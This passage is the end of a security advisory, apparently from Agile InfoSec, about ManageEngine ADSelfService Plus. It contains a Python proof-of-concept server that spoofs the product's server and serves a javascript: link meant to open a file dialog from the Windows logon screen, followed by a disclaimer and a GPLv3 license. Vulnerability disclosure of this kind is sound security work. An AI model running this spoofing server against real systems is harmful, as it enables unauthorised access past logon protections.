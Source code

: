 ```python
  # GET
  def do_GET(self):
        # Send response status code
        self.send_response(200)

        # Send headers
        self.send_header('Content-type','text/html')
        self.end_headers()

        # Send message back to client
        message = "<html><body><a href=\"javascript:document.write('<input/type=file>')\">Open up your GINA</a></body></html>"

        # Write content as utf-8 data
        self.wfile.write(bytes(message, "utf8"))
        print("done")
        return

def run():
  print('starting server...')

  # enter your listening address and port here for the ADSelfService Plus server spoof
  # do not forget to add a dns entry for your domain name to point to this IP
  server_address = ('13.33.37.1', 8888)
  httpd = HTTPServer(server_address, CustomRequestHandler)
  print('running server...')
  httpd.serve_forever()


run()
```

## Disclaimer
Please note that Agile Information Security Limited (Agile InfoSec) relies on information provided by the vendor / product manufacturer when listing fixed versions, products or releases. Agile InfoSec does not verify this information, except when specifically mentioned in the advisory text and requested or contracted by the vendor to do so.
Unconfirmed vendor fixes might be ineffective, incomplete or easy to bypass and it is the vendor's responsibility to ensure all the vulnerabilities found by Agile InfoSec are resolved properly. Agile InfoSec usually provides the information in its advisories free of charge to the vendor, as well as a minimum of six months for the vendor to resolve the vulnerabilities identified in its advisories before they are made public.
Agile InfoSec does not accept any responsibility, financial or otherwise, from any material losses, loss of life or reputational loss as a result of misuse of the information or code contained or mentioned in its advisories. It is the vendor's responsibility to ensure their products' security before, during and after release to market.

## License
All information, code and binary data in this advisory is released to the public under the [GNU General Public License, version 3 (GPLv3)](https://www.gnu.org/licenses/gpl-3.0.en.html). For information, code or binary data obtained from other sources that has a license which is incompatible with GPLv3, the original license prevails.
